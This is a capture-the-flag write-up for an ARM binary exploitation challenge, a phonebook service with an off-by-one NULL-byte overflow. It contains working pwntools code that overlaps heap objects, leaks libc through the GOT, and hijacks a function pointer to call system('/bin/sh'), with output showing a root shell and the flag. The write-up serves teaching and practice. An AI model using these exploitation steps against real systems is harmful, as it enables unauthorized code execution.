





# They're ARMed! Hitch a ride? - Points: 150 - (Solves: 3)

**Category**: Binary Exploitation

**Description**: We've identified an old phone on the network with an open
port, and found a [native library](armed) online! It's time to hitch a ride.
[libc](libc.so.6). remote access: `nc on.acictf.com 32840`

**Hints**:
- Thumb

## Solution

We're given a 32-bit ARM executable along with the target's libc. The binary
appears to be unstripped and dynamically linked. As such, we'll either need to
find an ARM system to debug it on, or set up a debian ARM sysroot and use qemu.

```
$ file armed
armed: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=419fb2e773b210c15ea822bc339a35ca7161994e, not stripped
```

Checksec indicates stack canaries and NX are enabled, but no PIE.

```
$ checksec armed
[*] '/home/user/ctf-writeups/2018-cyberstakes/armed/armed'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```

Connecting to the service, we are presented with a menu that allows us to
create contacts, edit their information, remove a contact, call a contact, and
print a contact's info. Calling the contact seems to cause the binary to
terminate.

```
$ nc on.acictf.com 32840
Welcome to the experimental phonebook app!

Choose an option:
1. Create a new contact
2. Edit contact information
3. Remove contact
4. Call contact
5. Print contact info
6. Exit
>1
Please enter contact name:testname
Please enter contact address:address
Please enter phone number:number

Choose an option:
1. Create a new contact
2. Edit contact information
3. Remove contact
4. Call contact
5. Print contact info
6. Exit
>4
$
```

Checking out the binary in binary ninja, we can see that it will print the
menu, get our input via a `sec_read` function, convert the first character to
an int, and switch on it.



Looking deeper into the `create_contact` function, we can see that it's seems
very straightforward. It will allocate 108 bytes with `malloc` and store the
pointer in a global variable named `contact`. It will then allocate another 200
bytes, and store that pointer at offset 104 in our initial allocation. It will
then call `get_info` to populate the two object we just allocated. We can see
that there is likely only one contact at a time due to the use of the global
variable.



`get_info` gives us quite a bit of context about what this data structure looks
like. It will call `sec_read` to read 100 bytes into offset 4 of the previously
allocated structure. Following this, we see two additional reads into offsets 0
and 100 of the second allocation for the contact address and phone number.



We can use this information to derive the following format for the allocated
structure.

```
struct contact_t {
    uint32_t unknown;
    char name[100];
    info_t *info;
}

struct info_t {
    char address[80];
    char pad1[20];
    char number[80];
    char pad2[20];
}
```

Our input is being read with the `sec_read` function. Let's take a closer to
look to see if it properly bounds checks and terminates our input. We see that
it accepts a buffer to read data into and the size of the buffer as the only
two arguments. It will read characters one at a time with `getchar`,
incrementing the buffer pointer and a counter after each iteration of the loop.
A newline will cause us to break out of the loop early.



We see that at the end of the loop, our input is null-terminated. However, the
function fails to null terminate the buffer at `buffer[len - 1]`, and instead
writes a NULL byte to `buffer[len]` if `len` bytes are specified. This results
in a single-byte buffer overflow where the overflowed byte is always a NULL
byte.

Since the `name` field in the `contact_t` struct is immediately followed by a
pointer, we can corrupt the pointer to the allocated `info_t` struct. Since
this binary is built for a little-endian architecture, this will allow us to
set the least-significant byte of the pointer to zero. The contact and info
structures are always allocated sequentially, so overwriting the least
significant byte of the second allocation may allow us to overlap the two
structures. Once overlapped, we should be able to use the reads to populate
`info.address` and `info.number` to set almost any value in the first
allocation to a value we control. In particular, the non-string fields
`contact.unknown` and `contact.info` seem like attractive overwrite targets. If
the binary uses these fields as pointers to read from, write to, or jump to, we
can have the potential for a very strong exploit primitive (arbitrary read,
arbitrary write, or control flow hijack).

If the objects line up as in the below diagram, we should have full control
over the `contact_t` struct after corrupting the `info_t*` pointer.

```
contact_t
0       16        20           80   100     120               180  200
        ---------------------------------------------
        |call_fptr| name                    |info_t*|
        ---------------------------------------------
info_t
--------------------------------------------------------------------
| address                      |pad1| number                  |pad2|
--------------------------------------------------------------------
```

We can use the `print_contact` method to verify our theory. This function will
simply print the name of our contact. If we send 100 a's for the name, this
should corrupt the pointer to the info struct, and hopefully cause an overlap.
Setting the address to 80 b's and the number to 80 c's will allow us to
determine if these fields overlap the name. If there's an overlap, the name
should be changed from 100 a's to some number of b's or c's. When we print the
name, we can use the amount of b's or c's displayed to compute the exact
offset where these structures overlap.

The following snippet implements this test.

```
#!/usr/bin/env python2

from pwn import *

conn = remote("on.acictf.com", 32840)

context.log_level = "debug"


def send_info(name, address, number):
    conn.recvuntil("name:")
    if len(name) < 100:
        conn.sendline(name)
    else:
        conn.send(name)

    conn.recvuntil("address:")
    if len(address) < 80:
        conn.sendline(address)
    else:
        conn.send(address)

    conn.recvuntil("number:")
    if len(number) < 80:
        conn.sendline(number)
    else:
        conn.send(number)


def create_contact(name, address, number):
    conn.sendline("1")
    send_info(name, address, number)
    conn.recvuntil(">")


def main():
    conn.recvuntil(">")

    create_contact("a"*100, "b"*80, "c"*80)
    conn.sendline("5")
    conn.recvuntil(">")


if __name__ == "__main__":
    main()
```

Running this script yields the following output.

```
$ ./test.py
[+] Opening connection to on.acictf.com on port 32840: Done
[DEBUG] Received 0x2a bytes:
    'Welcome to the experimental phonebook app!'
[DEBUG] Received 0x89 bytes:
    '\n'
    '\n'
    'Choose an option:\n'
    '1. Create a new contact\n'
    '2. Edit contact information\n'
    '3. Remove contact\n'
    '4. Call contact\n'
    '5. Print contact info\n'
    '6. Exit\n'
    '>'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x1a bytes:
    'Please enter contact name:'
[DEBUG] Sent 0x64 bytes:
    'a' * 0x64
[DEBUG] Received 0x1d bytes:
    'Please enter contact address:'
[DEBUG] Sent 0x50 bytes:
    'b' * 0x50
[DEBUG] Received 0x1a bytes:
    'Please enter phone number:'
[DEBUG] Sent 0x50 bytes:
    'c' * 0x50
[DEBUG] Received 0x86 bytes:
    '\n'
    'Choose an option:\n'
    '1. Create a new contact\n'
    '2. Edit contact information\n'
    '3. Remove contact\n'
    '4. Call contact\n'
    '5. Print contact info\n'
    '6. Exit'
[DEBUG] Received 0x2 bytes:
    '\n'
    '>'
[DEBUG] Sent 0x2 bytes:
    '5\n'
[DEBUG] Received 0xc9 bytes:
    'Contact name: bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb\n'
    '\n'
    'Choose an option:\n'
    '1. Create a new contact\n'
    '2. Edit contact information\n'
    '3. Remove contact\n'
    '4. Call contact\n'
    '5. Print contact info'
[DEBUG] Received 0xa bytes:
    '\n'
    '6. Exit\n'
    '>'
[*] Closed connection to on.acictf.com port 32840
$ python -c "print len('bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb')"
60
```

We can see that our contact's name has changed to 60 b's. This indicates our
theory was correct, and the address field starts 16 bytes before the start of
the contact structure (assuming these are the first two allocations). This may
change if there are prior allocations.

Now that we know we can overlap the allocations, let's see if we can find a way
to take advantage of it for a stronger primitive.

Looking at the `edit_contact` function, we see that we can re-read input into
an existing contact. Paired with our earlier primitive, this may be useful as
an arbitrary write primitive. Since we are able to fully control the `info`
pointer in the contact struct, we can set the info pointer to an address of our
choosing. After setting it to a target address, we can then edit the contact to
write up to 80 bytes to the address by updating the `info.address` field. While
powerful, we can solve the problem without this primitive.

Looking at the `call_contact` function, we see that it pulls a function pointer
from offset 0 of the `contact_t` struct, and calls it with the `contact.info`
as the first argument. This seems incredibly promising since we control both
the memory containing the function pointer, and the memory pointed to by the
first argument. If needed, we can even overwrite this pointer with an arbitrary
value if the first argument for the function we want to call is an immediate.
If we can overwrite the function pointer with `system`, we can easily call
`system("/bin/sh")`. To do this, we first need a way around ASLR.



We also now know the full definition for the `contact_t` struct.

```
struct contact_t {
    void (*call_fptr)(char *number);
    char name[100];
    info_t *info;
}
```

## Info Leak

Since the binary is not PIE, we can leak an address from the global offset
table to find the base of libc. Since we can call arbitrary functions with an
arbitrary first argument, we can call `puts` from the binary's PLT with the
address of a got entry. For my solution, I arbitrarily chose printf. In my
testing, I found that corrupting the info_t pointer would cause the info struct
to overlap the contact_t struct with an offset of 16 bytes.

```
contact_t
0       16        20           80   100     120               180  200
        ---------------------------------------------
        |call_fptr| name                    |info_t*|
        ---------------------------------------------
info_t
--------------------------------------------------------------------
| address                      |pad1| number                  |pad2|
--------------------------------------------------------------------
```

Using the above diagram, we see that after overlapping the struct, we can set
the function pointer to an arbitrary value by setting `address[16:20]` to our
target function (little endian), and we can set the first argument (`info_t*`)
to an arbitrary value by writing `value-100` to `number[20:24]`. We need to
ensure we subtract 100 from the value we want to pass because the program will
add 100 to it (to access the number field in the info_t struct) before calling
the function pointer.

We can reduce this functionality to a short pwntools function. This gives us an
excellent arbitrary read primitive (assuming the objects are allocated at the
correct offset from each other.

```
def leak_mem(addr):
    """Leak an aribitrary address with puts()."""
    address = "b"*16 + p32(elf.symbols["puts"]) + "testname"
    number = "c"*20 + p32(addr - 100)
    create_contact("a"*100, address, number)

    conn.sendline("4")
    data = conn.recvuntil("Choose an option", drop=True)[:-1]
    conn.recvuntil(">")
    return data
```

We can use this to leak the address of `printf` from the got immediately after
connecting. Since we have a copy of the target's libc, we can then compute the
base address of libc.

```
elf = ELF("./armed")
libc = ELF("./libc.so.6")

# Leak the .got entry for printf IOT get libc base.
leak = leak_mem(elf.got["printf"])
printf_addr = u32(leak[:4])
libc.address = printf_addr - libc.symbols["printf"]
log.info("printf.got : 0x{:x}".format(printf_addr))
log.info("libc base: 0x{:x}".format(libc.address))
```

Now that we have the base address of libc, combined with an arbitrary function
call with a controlled first argument, it *should* be trivial to call
`system("/bin/sh")`. However, our leak will end up corrupting the existing
contact object. If we try to edit it to set the function pointer to something
else, we will end up writing to the .got (since we corrupted the info_t
pointer).

We can work around this by simply replacing this object until we can get back
to a state where we have overlapping allocations in a new object. We can use
the `create_contact` function to replace the current one and the
`print_contact` function to determine when we're able to cause overlapping
objects. Due to the small size of the objects and the nature of our NULL-byte
overflow, we may need to allocation multiple objects until we can get back to a
predictable and exploitable state. I did this manually, and found that after
creating 3 objects, the fourth would always overlap with the same offsets as
before (how convenient).

```
log.info("Fixing heap state...")
for _ in xrange(3):
    create_contact("", "", "")
```

## Final exploit

For the final exploit, we can set the function pointer to `system`, and ensure
the first argument is "/bin/sh". For my exploit, I found the offset of the
"/bin/sh" string in libc, and overwrote the `info_t*` field with that address
minus 100 as detailed in the leak. In theory, you could simply ensure you set
the `info.number` field to "/bin/sh", but I went with the earlier method since
I knew it already worked with the read primitive.

Creating this contact and trying to call it should spawn a shell.

```
# Use the same primitive has the leak, except call system and
# set the contact->info pointer to point to "/bin/sh" in libc.
address = "b"*16 + p32(libc.symbols["system"]) + "testname"
binsh_addr = next(libc.search("/bin/sh"))
log.info("/bin/sh addr: 0x{:x}".format(binsh_addr))
number = "c"*20 + p32(binsh_addr - 100)
create_contact("a"*100, address, number)

# Trigger the primitive for a shell
log.info("Triggering system...")
conn.sendline("4")
conn.interactive()
```

And in fact it does!

```
$ ./solve.py
[+] Opening connection to on.acictf.com on port 32840: Done
[*] '/home/user/cyberstakes/armed/armed'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
[*] '/home/user/cyberstakes/armed/libc.so.6'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] printf.got : 0xf66cdb30
[*] libc base: 0xf6686000
[*] Fixing heap state...
[*] /bin/sh addr: 0xf67a721c
[*] Triggering system...
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
$ ls
ARMed
arm_libs
bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
$ cat flag
ACI{9bcf1e35201d1f5029366a3554f}
```

This challenge seemed to be a lot more difficult than 150 points, especially
because qemu usermode emulation doesn't work out of the box. To debug it, you
either had to have a raspberry pi on hand, or set up full system emulation.
Additionally, you would need access to a good ARM disassembler to really make
any progress at all. I enjoyed the work needed to get a good primitive, as it
wasn't handed to you (unlike many arbitrary buffer overflow or unbounded array
access problems).
